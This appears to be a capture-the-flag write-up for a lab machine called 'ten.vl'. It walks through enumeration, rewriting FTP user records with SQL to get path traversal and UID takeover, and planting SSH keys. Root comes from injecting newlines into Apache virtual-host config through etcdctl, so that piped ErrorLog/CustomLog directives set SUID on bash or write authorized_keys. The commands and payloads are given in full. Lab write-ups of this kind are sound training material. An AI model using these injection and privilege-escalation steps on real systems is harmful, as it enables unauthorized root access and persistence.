

# Before Starting

```console
Me > 10.8.2.163
Target > 10.10.99.137
```
```console
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
## Create user and change path and UID

We can't login on the ftp as anonymous but on the website we can request some credentials for a ftp account :


With that we can login on the ftp with ```ten-b94344ef;f846b300``` but there is nothing in our directory so this is not very interesting for the moment.

After some enumerations we can find a subdomain with ```wfuzz```

The subdomain is : ```webdb.ten.vl```

Using the guest credentials we can login as ```user;pa55word```, after some research we can see that :


So we can run some sql queries (I will pass the different tests that I have done)

By modifying the path of the FTP account that we generated on ```ten.vl```, we can have access to more things on FTP (note that we need to put ```/srv``` at the start of the path because there is a restriction)


```sql
UPDATE users 
SET 
	dir = '/srv/home/ten-b94344ef' 
WHERE 
	user = 'ten-b94344ef';
```
Now if we connect on the FTP : 



Ok nice, now let's try to modify the UID of our ftp user to access to ```/home/tyrell```

By changing the UID like that : 

```sql
UPDATE users
SET uid = 1000, gid = 1000
WHERE user = 'ten-b94344ef';
```
We can now go in ```/home/tyrell```


But as you can see we can't go in ```.ssh``` because the config file of the FTP make it absolutely impossible to interact with any directories or files starting with a ```.```

So to bypass this, we can change the path of our FTP user to something like ```/srv/../home/the_user/.ssh```

Ok let's try :

```sql
UPDATE users 
SET 
	dir = '/srv/../home/tyrell/.ssh' 
WHERE 
	user = 'ten-b94344ef';
```


Ok nice, let's put our public key and connect with our private key

```bash
ssh-keygen -t rsa -b 4096 -f id_rsa

mv id_rsa.pub authorized_keys

ftp> del authorized_keys
ftp> put authorized_keys

ssh -i id_rsa tyrell@ten.vl

tyrell@ten:~$ ls -la
total 32
drwxr-x--- 4 tyrell tyrell 4096 Sep 28 14:48 .
drwxr-xr-x 3 root   root   4096 Sep 28 08:51 ..
lrwxrwxrwx 1 tyrell tyrell    9 Sep 28 10:21 .bash_history -> /dev/null
-rw-r--r-- 1 tyrell tyrell  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 tyrell tyrell 3771 Jan  6  2022 .bashrc
drwx------ 2 tyrell tyrell 4096 Sep 28 10:16 .cache
-rw-r--r-- 1 tyrell tyrell  807 Jan  6  2022 .profile
drwx------ 2 tyrell tyrell 4096 Oct 14 17:16 .ssh
-r-------- 1 tyrell tyrell   37 Sep 28 10:20 .user.txt
```
Ok nice now let's root the machine.

## Use a config file to be root

If we look how the website ```ten.vl``` work when we "create a ftp account", using pspy, we can see that :


So etcdctl update the Apache configuration file to include a new virtual host and restart the web service AS ROOT.

If we manage to directly call etcdctl to avoid the filter that is present in the frontend we be able to inject some command in the apache config file and it wll be executed as root when the web service restart

We can also see how virtuals hosts are generated by looking at ```/var/www/html/get-credentials-please-do-not-spam-this-thanks.php``` 

```php
<?php
if ( !isset($_POST['domain']) ) {
  header('Location: /signup.php');
}
if(!preg_match('/^[0-9a-z]+$/', $_POST['domain'])) {
  echo('<font color=red>Domain name can only contain alphanumeric characters.</font>');
} else {
  $username = "ten-" . substr(hash("md5",rand()),0,8);
  $password = substr(hash("md5",rand()),0,8);
  $password_crypt = crypt($password,'$1$OWNhNDE');
  sleep(10); // This is only here so that you do not create too many users :)
  $mysqli = new mysqli("127.0.0.1", "user", "pa55w0rd", "pureftpd");
  $stmt = $mysqli->prepare("INSERT INTO users VALUES ( NULL, ?, ?, ?, ?, ? );");
  $uid = random_int(2000,65535);
  $dir = "/srv/$username/./";
  $stmt->bind_param('ssiis',$username,$password_crypt,$uid,$uid,$dir);
  $stmt->execute();

  // This line
  system("ETCDCTL_API=3 /usr/bin/etcdctl put /customers/$username/url " . $_POST['domain']);
  
  echo('<p class="lead">Your personal account is ready to be used:<br><br>Username: <b>'.$username.'</b><br>Password: <b>'.$password.'</b><br>Personal Domain: <b>'.$_POST['domain'].'.ten.vl</b><br><br>You can use the provided credentials to upload your pages<br> via ftp://ten.vl.<br><br><font size="-1">It may take up to one minute for all backend processes to properly identify you as well as your personal virtual host to be available.</font></p>');
}
```
We can also analyse all the files in ```/etc/remco``` to understand how virtuals hosts are generated :

```php
// "/etc/remco/config"
log_level = "info"
log_format = "text"

[[resource]]
name = "apache2"

[[resource.template]]
  src = "/etc/remco/templates/010-customers.conf.tmpl"
  dst = "/etc/apache2/sites-enabled/010-customers.conf"
  reload_cmd = "systemctl restart apache2.service"

  [resource.backend]
    [resource.backend.etcd]
      version = 3
      nodes = ["http://127.0.0.1:2379"]
      keys = ["/customers"]
      watch = true
      interval = 5
```
Templates :

```bash
# "/etc/remco/templates/010-customers.conf.tmpl"

  {% if exists(printf("/customers/%s/url", customer)) %}

<VirtualHost *:80>
	ServerName {{ getv(printf("/customers/%s/url",customer)) }}.ten.vl
	DocumentRoot /srv/{{ customer }}/
</VirtualHost>

  

```
And now the ```010-customers.conf``` file to better understand :

```php
// "/etc/apache2/sites-enabled/010-customers.conf" 

<VirtualHost *:80>
	ServerName fake.ten.vl
	DocumentRoot /srv/ten-29ee00eb/
</VirtualHost>


<VirtualHost *:80>
	ServerName fake.ten.vl
	DocumentRoot /srv/ten-470561b8/
</VirtualHost>


<VirtualHost *:80>
	ServerName fake.ten.vl
	DocumentRoot /srv/ten-b94344ef/
</VirtualHost>
```
Ok so let's try to add a virtual host directly with the etcdctl command

```bash
# for example
tyrell@ten:/etc/apache2/sites-enabled$ ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-29ee00eb/url toto
```
Now if we check our pspy : 

```bash
2024/10/14 18:16:01 CMD: UID=1000  PID=2594   | 
2024/10/14 18:16:07 CMD: UID=1000  PID=2605   | 
2024/10/14 18:16:12 CMD: UID=1000  PID=2606   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2613   | systemctl restart apache2.service 
2024/10/14 18:16:12 CMD: UID=0     PID=2612   | /bin/sh -c systemctl restart apache2.service 
2024/10/14 18:16:12 CMD: UID=0     PID=2614   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2615   | /bin/sh /usr/sbin/apachectl graceful-stop 
2024/10/14 18:16:12 CMD: UID=0     PID=2616   | /usr/sbin/apache2 -k graceful-stop 
2024/10/14 18:16:12 CMD: UID=0     PID=2619   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2620   | /bin/sh /usr/sbin/apachectl start 
2024/10/14 18:16:12 CMD: UID=0     PID=2621   | rm -f /var/run/apache2/*ssl_scache* 
2024/10/14 18:16:12 CMD: UID=0     PID=2622   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2623   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2625   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2624   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2627   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2626   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2628   | /usr/sbin/apache2 -k start
```
And we can verify the ```010-customers.conf``` file :

```bash
tyrell@ten:/etc/apache2/sites-enabled$ cat 010-customers.conf | grep -I -C5 "toto"

<VirtualHost *:80>
	ServerName toto.ten.vl
	DocumentRoot /srv/ten-29ee00eb/
</VirtualHost>
```
So we be able to create a virtual host, now we need to find to use this to be root :

[Check this](https://httpd.apache.org/docs/2.4/logs.html#piped)

[And this](https://httpd.apache.org/docs/2.4/mod/core.html#errorlog)

So we need to add an actual servername then newline, add the log thing and comment everything else

Something like that :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-b94344ef/url 'fake.ten.vl
  ErrorLog "|/usr/bin/chmod u+s /usr/bin/bash" 
#'
```
But we can also do this :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-b94344ef/url 'fake.ten.vl
  CustomLog "|/usr/bin/chmod u+s /usr/bin/bash" common
#'
```
After that, just wait a little bit and execute ```/usr/bin/bash -p``` to be root

The file gonna look like this : 

```php
<VirtualHost *:80>
	ServerName fake.ten.vl
  CustomLog "|/usr/bin/chmod u+s /usr/bin/bash" common 
#.ten.vl
	DocumentRoot /srv/ten-b94344ef/
</VirtualHost>
```
(Note : if u want to execute a file, dont put the file in ```/tmp``` because apache cannot execute stuff out of /tmp, because daemon has a different /tmp directory than all other processes)

But there is another way to privesc, still using ```CustomLog``` but with ```agent``` :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-984902b8/url 'ethicxz.ten.vl
        CustomLog "/root/.ssh/authorized_keys" agent
#'
```
And now on ur local machine :

```bash
curl ethicxz.ten.vl -H 'User-Agent: public_key_here'

ssh -i id_rsa root@ten.vl
```
With that, you can just overwrite everything you want like ```/etc/sudoers```, ```authorized_keys``` etc.

PS : Big thanks to [pr0m0ly](https://x.com/pr0m0ly) to the help he gave to me to root the machine 

sorry if my english was bad and if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'